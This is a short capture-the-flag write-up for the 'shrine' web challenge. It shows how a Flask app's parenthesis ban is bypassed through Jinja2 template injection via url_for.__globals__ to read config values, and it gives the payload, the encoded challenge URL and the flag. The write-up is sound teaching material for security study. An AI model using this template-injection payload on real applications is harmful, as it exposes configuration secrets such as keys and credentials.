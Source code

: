## shrine - Web - Writeup by Artemis Tosini

### Description

We are presented with a simple flask application which renders any content we give it. However, the flask application deletes the config and self objects, and bans any use of '(' or ')' in our template. Our goal is to get app.config['FLAG'].

### Solution
Flask passes in functions and variables to the jinja template. This includes the config object, but also functions like url\_for. These functions are not deleted, and support getting \_\_globals\_\_ as an item. Therefore, we can just render the template:

    {{url_for.__globals__.current_app.config.FLAG}}

Because of URL encoding, this means going to

    http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7Burl_for.__globals__.current_app.config.FLAG%7D%7D

That gives us the flag.

    TWCTF{pray_f0r_sacred_jinja2}
